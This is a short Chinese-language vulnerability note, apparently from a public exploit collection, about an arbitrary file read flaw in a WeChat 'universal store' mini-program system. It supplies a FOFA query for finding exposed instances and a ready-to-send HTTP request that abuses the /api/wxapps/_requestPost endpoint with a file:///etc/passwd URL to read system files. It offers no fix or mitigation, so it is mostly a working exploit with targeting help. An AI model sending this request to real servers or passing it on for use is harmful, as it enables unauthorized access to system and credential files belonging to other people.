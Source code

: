 # 微信万能门店小程序系统存在任意文件读取漏洞

# 一、漏洞简介
万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。支持后台一键扫码上传小程序，和后台通用模板。微信万能门店小程序系统存在任意文件读取漏洞

# 二、影响版本
+ 微信万能门店小程序系统

# 三、资产测绘
+ fofa`<font style="color:rgb(221, 17, 68);">"/comhome/cases/index.html"</font>`
+ 特征

![1732115890021-a19be87f-f478-4ee9-971e-bdbeb555e80f.png](./img/QNp7Kijf56GcPlTN/1732115890021-a19be87f-f478-4ee9-971e-bdbeb555e80f-733822.png)

# 四、漏洞复现
```java
GET /api/wxapps/_requestPost?url=file:///etc/passwd&data=1 HTTP/2
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```

![1732115844099-9921c837-e60b-49bb-abba-ee32694c6075.png](./img/QNp7Kijf56GcPlTN/1732115844099-9921c837-e60b-49bb-abba-ee32694c6075-869334.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aaxfs0symbpmcbdz>